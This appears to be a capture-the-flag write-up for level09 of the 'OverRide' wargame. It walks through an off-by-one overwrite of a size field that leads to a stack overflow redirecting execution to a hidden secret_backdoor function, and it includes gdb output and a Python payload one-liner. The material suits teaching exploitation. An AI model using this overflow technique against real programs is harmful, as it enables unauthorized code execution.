

# Level09

## Reconnaissance

We have three security enabled:
- **RELRO Partial enabled** = stands for Relocation Read-Only and means that the GOT (Global Offset Table) placed were we cannot overflow
- **NX enabled** = not every part of the memory are considered as being executable
- **PIE enabled** = stands for Position Independent Executable which means that the binary has been built to be run anywhere in memory. However, for PIE being relevant, ASLR should be activated, which is not the case.
```shell
level09@OverRide:~$ cat /proc/sys/kernel/randomize_va_space
0
```

ELF 64bit

With gdb, we notice that there is an unused function called `secret_backdoor` which give `stdin` to `system`.
We spot that the `set_username` function write one more byte than expected, overwriting the first byte of `size`
which is used to copy the msg into the main buffer. We can use this to overwrite the return pointer of `handle_msg`
and run the `secret_backdoor` function since it is present and we cannot use a shellcode because of `NX enabled`.

## Exploit


We have an offset of 200 so `size` must be overwrite with `208 = 0xd0`

Then we need to get the address of `secret_backdoor` function but since `PIE` has been enabled we dont have its address directly in gdb,
we have to run the binary and then get the address. This address wont change since `ASLR` has not been activated.
```shell
(gdb) info functions secret_backdoor 
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
We can build our payload with the first 40 bytes to fill the `username` buffer, we add one for the username which will overwrite the first byte of `size` and then our padding followed by the address of `secret_backdoor`:
- `python -c 'print "A" * 40 + "\xd0" + "\n" + "B" * 200  + "\x8c\x48\x55\x55" + "\x55\x55\x00\x00"' > /tmp/level09`
